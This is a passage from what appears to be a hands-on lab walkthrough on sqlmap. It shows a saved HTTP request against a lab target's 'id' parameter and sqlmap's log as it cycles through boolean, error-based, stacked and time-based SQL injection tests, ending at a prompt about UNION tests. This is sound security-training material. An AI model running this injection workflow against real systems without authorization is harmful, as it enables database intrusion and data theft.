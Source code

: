 Let's send the request and save it:

```
GET /case5.php?id=1 HTTP/1.1

Host: 94.237.61.252:35591

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: keep-alive

Referer: http://94.237.61.252:35591/case5.php

Upgrade-Insecure-Requests: 1

Priority: u=0, i

```

If we try sending the standard sqlmap command, we get the following:

```
[21:01:19] [INFO] parsing HTTP request from 'case5.txt'
[21:01:19] [INFO] testing connection to the target URL
[21:01:20] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:01:20] [INFO] testing if the target URL content is stable
[21:01:20] [INFO] target URL content is stable
[21:01:20] [INFO] testing if GET parameter 'id' is dynamic
[21:01:21] [INFO] GET parameter 'id' appears to be dynamic
[21:01:21] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[21:01:22] [INFO] testing for SQL injection on GET parameter 'id'
[21:01:22] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:01:24] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[21:01:25] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[21:01:25] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[21:01:25] [WARNING] if the problem persists please try to lower the number of used threads (option '--threads')
[21:01:26] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[21:01:28] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[21:01:29] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[21:01:31] [INFO] testing 'Generic inline queries'
[21:01:31] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[21:01:32] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[21:01:32] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[21:01:33] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[21:01:34] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[21:01:35] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[21:01:36] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:01:38] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[21:01:40] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[21:01:41] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
```